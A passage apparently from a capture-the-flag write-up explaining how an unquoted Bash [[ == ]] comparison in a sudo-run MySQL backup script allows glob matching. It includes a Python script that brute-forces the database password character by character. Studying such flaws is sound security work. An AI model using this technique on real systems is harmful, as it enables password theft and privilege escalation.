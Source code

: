 ```bash
/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
The vulnerability in the script is related to how the password confirmation is handled:
```bash
if [[ $DB_PASS == $USER_PASS ]]; then
    /usr/bin/echo "Password confirmed!"
else
    /usr/bin/echo "Password confirmation failed!"
    exit 1
fi
```

This section of the script compares the user-provided password (USER_PASS) with the actual database password (DB_PASS). The vulnerability here is due to the use of == inside [[ ]] in Bash, which performs pattern matching rather than a direct string comparison. This means that the user input (USER_PASS) is treated as a pattern, and if it includes glob characters like * or ?, it can potentially match unintended strings.

For example, if the actual password (DB_PASS) is password123 and the user enters * as their password (USER_PASS), the pattern match will succeed because * matches any string, resulting in unauthorized access.

This means we can bruteforce every char in the DB_PASS.

## Exploiting Pattern Matching
I wrote a Python script that exploits this by testing password prefixes and suffixes to slowly reveal the full password.

It builds up the password character by character, confirming each guess by invoking the script via sudo and checking for a successful run.

```python
import string
import subprocess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char):
			password += char
			print(password)
```